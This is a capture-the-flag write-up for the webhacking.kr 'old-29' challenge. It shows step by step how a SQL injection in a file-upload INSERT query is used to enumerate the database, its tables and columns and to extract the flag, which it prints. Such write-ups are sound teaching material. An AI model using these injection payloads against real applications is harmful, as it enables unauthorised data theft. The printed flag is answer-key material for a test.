

# Webhacking old-29 Solution

this is another sql injection challenge.
I think the sql query is like that: `INSERT INTO table Values (filename)`, so, we need to see what are the next columns, there are 2 options:
```
(filename, ip, time)
(filename, time, ip)
```

my-ip = `149.102.239.232`
let's try each of this methods, and see which one works.
1. `file', '149.102.239.232', 0)# `
2. `file', 0, '149.102.239.232')# `

the second method works!



now, let's insert this payload, in order to find the database:
```
file', 0, '149.102.239.232'), ((select database()), 0, '149.102.239.232')# 
```
database: `chall29`

retrieve tables:
```
file', 0, '149.102.239.232'), ((select group_concat(table_name) from information_schema.tables where table_schema='chall29'), 0, '149.102.239.232')# 
```
tables: `files,flag_congratz`

retrieve columns:
```
file', 0, '149.102.239.232'), ((select group_concat(column_name) from information_schema.columns where table_name='flag_congratz'), 0, '149.102.239.232')# 
```
columns: `flag`

now, only need to achieve the flag:
```
file', 0, '149.102.239.232'), ((select flag from flag_congratz), 0, '149.102.239.232')# 
```
flag: `FLAG{didYouFeelConfused?_sorry:)}`


**Flag:** ***`FLAG{didYouFeelConfused?_sorry:)}`*** 


